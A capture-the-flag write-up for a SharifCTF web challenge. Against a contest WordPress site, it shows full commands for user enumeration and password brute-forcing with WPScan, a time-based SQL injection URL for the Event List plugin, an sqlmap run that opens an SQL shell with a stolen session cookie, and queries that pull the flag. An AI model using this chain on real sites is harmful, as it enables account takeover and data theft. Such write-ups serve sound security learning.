

# The news hacker (150 PTS)
### Description

>Only admin can see the flag :)
>
>ctf.sharif.edu:8082
>
>Alternative Link (8082.ctf.certcc.ir)

>Hint: Weak password!

Flag: ```SharifCTF{e7134abea7438e937b87608eab0d979c}```

### Solution

<p></p>

This is the main page of the website. It contains some news about hackers, calendar with CTF competitions and a simple photo gallery. Website looks like ```wordpress```, so let's check it using [WPScan](https://wpscan.org/)!

```
vova@Vova-PC:~/wpscan$ ruby ./wpscan.rb --url http://8082.ctf.certcc.ir/ --enumerate u --threads 20 > scan.txt
```

Yeah, look at that ```scan.txt```! It a definitely wordpress, and it contains many vulnerable plugins.

You can see all scanning results in [scan.txt](scan.txt), but we'll take note of ```Event List``` plugin:

```
[!] Title: Event List <= 0.7.8 - Authenticated SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8846
    Reference: https://dtsa.eu/cve-2017-9429-event-list-version-v-0-7-8-blind-based-sql-injection-sqli/
    Reference: https://plugins.trac.wordpress.org/changeset/1676971/event-list
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9429
[i] Fixed in: 0.7.9
```

That vulnerability exploits a ```SQL injection``` hidden in the editing page:

```
http://[wordpress_site]/wp-admin/admin.php?page=el_admin_main&action=edit&id=1 AND SLEEP(10)
```

We can use it! But... first we need to login into ```wp-admin```. 

WPScan with ```--enumerate u``` (as we used) obtains logins of wordpress users (id from 1 to 10). Let's look at the end of ```scan.txt```:

```
[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+-----------+-----------+
    | Id | Login     | Name      |
    +----+-----------+-----------+
    | 1  | admin     | admin     |
    | 2  | organizer | organizer |
    +----+-----------+-----------+
[!] Default first WordPress username 'admin' is still used
```

So we can use WPScan again to bruteforce passwords. I looked at the Hint and used [500 worst passwords](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt).

```
vova@Vova-PC:~/wpscan$ ruby ./wpscan.rb --url http://8082.ctf.certcc.ir/ --wordlist 500-worst-passwords.txt --threads 20
+----+-----------+-----------+----------+
| Id | Login     | Name      | Password |
+----+-----------+-----------+----------+
| 1  | admin     | admin     |          |
| 2  | organizer | organizer | password |
+----+-----------+-----------+----------+
```

And there is ```organizer's``` password: ```password```! Weak, isn't it? So let's login into admin panel (```/wp-login.php```).

<p></p>

As you see, nothing interesting here. Just save the cookie and go away...

```
wordpress_eb2a34d2fb7f6ae7debb807cd7821561=organizer%7C1518053697%7C3Uy0RvkQYc2RtBB4Vlg2kDdWNg8eC6fUF6Qq1TNS4tc%7C3fe61137ca73062fd44852ef55a17cb2d89a05f4227ecb2bc807db867e528355
```

```Wordpress 4.9.1``` cookie is very complicated, that's why we won't try to change it. But now we can exploit the SQL injection from ```Event List``` using [sqlmap](http://sqlmap.org/).

```
C:\Users\Vova\Desktop\SharifCTF8> py -2 sqlmap.py ^
More? --url="http://8082.ctf.certcc.ir/wp-admin/admin.php?page=el_admin_main&action=edit&id=1" ^
More? -p id ^
More? --threads=10 ^
More? --sql-shell ^
More? --cookie="wordpress_eb2a34d2fb7f6ae7debb807cd7821561=organizer%7C1518050175%7C8XtpMJPPznkAada2MnyIamhMcBXMS0JDAtsuKJgrw8n%7C9539ffdec564f651fe34b71327d8bf2978fb1c93883ec9be36ef9aa65552fc8f"
```

I'll explain. We're providing a ```request url``` with injection, selecting vulnerable ```argument``` (id), spawning 10 ```threads```, requesting ```shell``` and setting our ```cookie``` to pass authentification.

After some tryings and checkings sqlmap provides us a ```SQL shell```. Console log is too big, so you can see it all in [shell.txt](shell.txt). I'll just write commands and partial server response.

Description said that only ```admin``` can see flag. We're not admin, but we have an access to ```all data``` on the website. At the beginning we should discover tables presents in databases.

```
sql-shell> select table_name from information_schema.tables where table_schema != 'information_schema'
[*] wp_app_user_info
[*] wp_bwg_album
[*] wp_comments
[*] wp_event_list
[*] wp_options
[*] wp_posts
[*] wp_users
...
```

Since this is wordpress, then we look at ```wp_posts``` first. Take a look at the table structure and get ```content``` of all posts.

```
sql-shell> select column_name from information_schema.columns where table_name = 'wp_posts'
[*] ID
[*] post_author
[*] post_content
[*] post_date
[*] post_name
[*] post_title
[*] post_type
...

sql-shell> select post_content from wp_posts
...
```

After a little searching we'll found the flag:

```
[*] Flag is SharifCTF{e7134abea7438e937b87608eab0d979c}
```
